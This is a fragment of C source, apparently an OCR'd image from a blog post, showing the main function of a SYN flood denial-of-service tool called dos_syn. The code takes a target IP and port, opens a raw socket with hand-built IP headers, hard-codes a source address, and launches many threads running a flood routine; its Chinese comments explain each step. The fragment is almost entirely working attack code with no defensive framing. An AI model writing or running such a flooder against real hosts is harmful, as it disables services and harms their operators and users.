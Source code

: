	pthread_t pthread[MAXCHILD];
	int err = -1;
	
	alive = 1;
	/* 截取信号CTRL+C */
	signal(SIGINT, DoS_sig);



	/* 参数是否数量正确 */
	if(argc < 3)
	{
		printf("usage:dos_syn ip port\n");
		return -1;
	}

	/* 获取协议类型ICMP */
	protocol = getprotobyname(protoname);
	if (protocol == NULL)
	{
		perror("getprotobyname()");
		return -1;
	}
	PROTO_TCP = protocol->p_proto;

	/* 输入的目的地址为字符串IP地址 */
	dest = inet_addr(argv[1]);
	sour = inet_addr("172.19.50.199");
	if(dest == INADDR_NONE)
	{
		/* 为DNS地址 */
		host = gethostbyname(argv[1]);
		if(host == NULL)
		{
			perror("gethostbyname");
			return -1;
		}

		/* 将地址拷贝到dest中 */
		memcpy((char *)&dest, host->h_addr,host->h_length);
	}
	/* 目的端口 */
	dest_port = atoi(argv[2]);

	/* 建立原始socket */
	rawsock = socket (AF_INET, SOCK_RAW, protocol->p_proto);	
	if (rawsock < 0)	   
		rawsock = socket (AF_INET, SOCK_RAW, PROTO_TCP);	

	/* 设置IP选项 */
	setsockopt (rawsock, SOL_IP, IP_HDRINCL, "1", sizeof ("1"));

	/* 建立多个线程协同工作 */
	for(i=0; i<MAXCHILD; i++)
	{
		err = pthread_create(&pthread[i], NULL, DoS_fun, NULL);
	}

	/* 等待线程结束 */
	for(i=0; i<MAXCHILD; i++)
	{
		pthread_join(pthread[i], NULL);
	}

	close(rawsock);
	
	return 0;
}
{% endhighlight %}
